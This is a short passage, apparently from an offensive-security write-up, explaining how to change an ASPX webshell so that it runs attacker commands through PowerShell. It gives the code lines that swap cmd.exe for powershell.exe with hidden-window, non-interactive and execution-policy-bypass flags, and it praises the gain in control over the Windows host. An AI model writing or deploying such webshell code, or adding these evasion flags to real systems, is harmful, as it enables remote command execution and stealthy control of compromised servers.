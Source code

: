Thank you for reading!


## Modifying the aspx webshell for PowerShell execution

To modify the webshell to execute PowerShell as a default, simply replace lines 11 and 12:
```cs
psi.FileName = "cmd.exe";
psi.Arguments = "/c "+arg;
```

With:
```cs
psi.FileName = "powershell.exe";
psi.Arguments = "-NoP -NonI -W Hidden -Exec Bypass \""+arg+"\"";
```

PowerShell execution brings with it a massive improvement of usability and functionality; we can do practically anything in the Windows environment.  This isn't strictly necessary, but could be useful.